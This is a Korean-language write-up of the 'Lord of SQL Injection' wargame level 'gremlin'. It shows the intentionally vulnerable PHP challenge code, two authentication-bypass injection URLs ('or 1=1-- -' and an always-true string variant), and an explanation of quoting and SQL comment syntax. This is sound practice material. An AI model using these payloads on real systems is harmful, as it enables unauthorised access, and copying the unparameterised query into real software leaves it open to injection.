 This is an H1
Lord of SQL Injection No.1 - gremlin
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
위 코드에서 알수 있는 것
4번째와 5번째줄 if문의 preg_match에서 id와 pw에 . 이나 ()가 들어가있으며 No Hack ~_~라고 뜨고 문제 풀이에 실패하게되는걸 알수있다.
DB에 저장되있는 값인 $result[id]에 어떠한 값이라도 들어가 있으면 문제를 풀수있다.

문제풀이 법
1) http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or 1=1-- -
그냥 읽어보자면 아이디의 값이 123이거나 1=1 곧 참이라는 것이다.
뒤에 -- -는 뒤에 올 pw 및 다른 값들을 입력하지 않아도 되도록 주석처리를 하는것이다.

*주석처리 법 --%20(%20은 공백), #,/**/

id=123 or 1=1-- -이 아니라 id=123' 싱글 쿼터로 닫아 줌으로써 하나의  id 값을 마무리해주면 sql문을 입력할 수 있게되는데
or연산은 앞에 값이 틀리더라도 뒤의 값이 참이면 참이게 되는 연산으로 or연산을 써줌으로 $result[id]가 참이 되어 문제가 풀리게된다.

2)http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or%20'123'%20-- -
이번 방법은 위의 방법과 동일하지만 '0'이 아닌 어떠한 문자열이 들어오게되면 이 값은 참으로 받아들여지게되어 문제가 풀리게된다.
